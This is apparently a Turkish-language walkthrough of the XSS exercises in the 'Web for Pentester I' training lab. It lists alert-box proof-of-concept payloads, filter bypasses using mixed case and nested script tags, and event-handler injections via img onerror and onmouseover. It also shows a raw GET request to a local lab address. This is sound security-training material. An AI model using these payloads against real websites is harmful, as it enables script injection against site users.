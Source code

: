 ## Web for Pentester I

### XSS

#### Example 1

İlk örnekte ekrana Hello Hacker yazısı geliyor URL ye baktığımızda **example1.php?name=Hacker** şeklinde bir dizge görüyoruz, buradan anlaşılıyorki name gibi bir parametreye verdiğimiz değer gönderiliyor buraya `<script>alert(1);</script>` yada `<script>alert('Merhaba XSS');</script>`  gibi değerler girdiğimizde hemen hatayı alıyoruz. Oldukça Basitti. Kaynak kodda enjekte ettiğimiz script etiketleri görünür.

```html
<img src = 'https://www.erdoganyoksul.com/wp-content/uploads/2019/02/cropped-eredot_pkfr.png'></img>

<iframe width = 100% height 100% src = 'https://www.erdoganyoksul.com'></iframe><style>*{margin: 0;}</style>
```

Netcat ile bağlanıpta `<script></script>` etiketlerini kaynak koda GET metodu ile gömebiliriz.

> GET /xss/example1.php?name=<script>alert(1);</script> HTTP/1.1
>
> Host: 192.168.56.101



#### Example 2

Bu bölümde ise `<script>alert(1)</script>`  şeklinde sorgu gerçekleştirdiğimizde script etiketleri görmezden geliniyor ve **alert(1)** yazısı ile karşılaşıyoruz. `<Script>alert(1)</Script>` şeklinde bir sorgu ile filtreyi atlatabiliriz. script etiketleri filtrelensede html etiketleri çalışır durumda `<img src = 'kaynak_yok_hata' onerror = 'alert(1)'>
</img>` şeklinde hata alabiliriz.

> `<scr<script>ipt>alert(1);</scr</script>ipt>`

#### Example 3

Bu aşama 2. aşama ile neredeyse aynı `<sc<script>ript>alert(1);</sc</script>ript>` şeklinde bir sorgu ile hatayı alabiliyoruz. `<Script>alert(1);</Script>` şeklinde alamıyoruz ama büyük küçük harfe duyarsız bu sefer.

```html
<img src = 'kaynak' onerror = 'alert(1)'></img>
<style>*{background-color: red;}</style>
```

#### Example 4

Burada `<script>` etiketlerini gördüğü anda ekrana error basıyor fakat html etiketleri çalışıyor **HTML** tagları ile hata alabiliriz.

```html
<img src = 'kaynak' onerror = 'alert(1)'></img>
<a onmouseover = 'alert(1)'>Tıkla ...</a>
<img src=”javascript:alert(‘CanYouPwnMe’)”></img>
<a><div width = 100% height = 100% onmouseover = 'alert(1)'>Read More...</div></a>
```
